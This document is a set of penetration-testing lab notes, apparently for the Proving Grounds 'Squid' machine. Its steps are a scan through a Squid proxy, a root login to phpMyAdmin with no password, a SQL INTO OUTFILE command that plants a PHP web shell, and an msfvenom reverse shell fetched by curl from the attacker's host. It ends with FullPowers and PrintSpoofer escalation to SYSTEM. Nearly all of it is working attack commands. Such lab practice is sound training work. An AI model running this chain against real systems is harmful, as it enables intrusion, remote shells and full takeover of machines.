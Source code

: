 -  python \-m venv venv
-  source venv/bin/activate
-  git clone [https://github.com/aancw/spose.git](#https://github.com/aancw/spose.git)

-  python spose\.py \-\-proxy [http://192.168.207.189:3128](#http://192.168.207.189:3128)
\-\-target 192\.168\.207\.189
Using proxy address [http://192.168.207.189:3128](#http://192.168.207.189:3128)

192\.168\.207\.189 3306 seems OPEN 
192\.168\.207\.189 8080 seems OPEN

-  set HTTP proxy in Firefox and navigate to [http://192.168.199.189:8080](#http://192.168.199.189:8080)


-  phpmyadmin 
-  root: \(NOPASS\)

-  [SELECT](#http://192.168.199.189:8080/phpmyadmin/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html)
"\<?php echo shell\_exec\($\_GET\['c'\]\);?\>" into OUTFILE "C:/wamp/www/shell\.php"

-  msfvenom \-p windows/x64/shell\_reverse\_tcp LHOST=192\.168\.45\.203 LPORT=4444 \-f exe \> shell\.exe
-  c=curl [http://192.168.45.203/shell.exe](#http://192.168.45.203/shell.exe)
\-o shell\.exe 

C:\\wamp\\www\>
C:\\\> type local\.txt

-  cp /usr/share/windows\-resources/binaries/nc\.exe \. \(send it over the victim machine\)
[https://benheater.com/proving-grounds-squid/](#https://benheater.com/proving-grounds-squid/)


[https://github.com/itm4n/FullPowers/releases/tag/v0.1](#https://github.com/itm4n/FullPowers/releases/tag/v0.1)

-  FullPowers\.exe \(send to victim machine\)

-  FullPowers\.exe \-x
-  FullPowers\.exe \(gains more privileges including SeImpersonatePrivilege\)

-  send i PrintSpoofer\.exe to victim machine

-  PrintSpoofer\.exe \-i \-c cmd

whoami
nt authority\\system
